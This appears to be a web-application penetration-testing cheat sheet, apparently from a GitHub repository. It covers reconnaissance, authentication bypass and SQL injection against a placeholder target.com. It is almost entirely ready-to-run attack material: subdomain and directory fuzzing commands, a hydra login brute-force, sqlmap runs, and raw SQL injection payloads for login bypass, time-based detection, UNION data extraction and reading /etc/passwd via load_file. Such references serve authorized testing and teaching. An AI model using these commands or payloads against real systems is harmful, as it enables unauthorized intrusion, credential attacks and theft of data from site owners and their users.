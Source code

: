 ```yaml
---

---
```

___

## **RECONNAISSANCE**
*Present on: All web applications*

**Manual:** Browser dev tools, view source, directory guessing
**Automated:**
```bash
subfinder -d target.com | httpx -silent
ffuf -w /usr/share/wordlists/dirb/common.txt -u https://target.com/FUZZ
nuclei -u target.com -t technologies/
```

##  **AUTHENTICATION BYPASS**
*Present when: Poor auth implementation, weak validation logic*

**Manual:** Try default creds, manipulate login flow, check session handling
**Automated:**
```bash
hydra -L users.txt -P pass.txt target.com http-post-form
ffuf -w creds.txt -u target.com/login -X POST -d "user=FUZZ&pass=FUZZ"
```

**Exploit:**
```sql
' OR 1=1--
admin'--
```

##  **SQL INJECTION**
*Present when: User input directly concatenated into SQL queries*
Detailed cheatsheet: [SQL Injection](../../🌐%20Web%20Application/Injections/SQL%20Injection.md)

**Manual:** Add `'` to parameters, observe errors, test time delays
**Automated:**
```bash
sqlmap -u "target.com/page?id=1" --batch --dbs
ghauri -u "target.com/page?id=1"
```

**Exploit:**
```sql
# Detection
' OR SLEEP(5)--
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--

# Extraction
' UNION SELECT 1,version(),database()--
' UNION SELECT 1,load_file('/etc/passwd'),3--
```
